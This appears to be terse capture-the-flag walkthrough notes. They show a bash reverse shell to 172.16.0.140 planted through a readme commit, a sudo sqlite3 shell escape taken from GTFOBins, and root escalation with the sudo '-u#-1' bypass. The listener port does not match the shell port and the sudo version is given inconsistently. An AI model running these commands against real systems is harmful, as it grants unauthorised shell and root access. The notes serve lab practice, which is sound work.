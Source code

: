 I think we get a bash as frank with this one , (when we update the commit  readme.md)
```
bash -i >&  /dev/tcp/172.16.0.140/443 0>&1
```

lets listen on nc -nlvp 777

so, with sudo -l we can execute this, this are our permissions

```
 (ALL, !root) NOPASSWD: /usr/bin/sqlite3
```

gtfobins gives us this to execute a shell 

```
sqlite3 /dev/null '.shell /bin/sh'
```
but we still being frank

he is looking the version of "sudo"

#sudoversion
```
sudo --version 1.8.21
```
actually the version is maybe 2 1.9

so, we can make a command that permites us to be root, just with this 

```
sudo -u#-1 sqlite3 /dev/null '.shell /bin/bash'
```




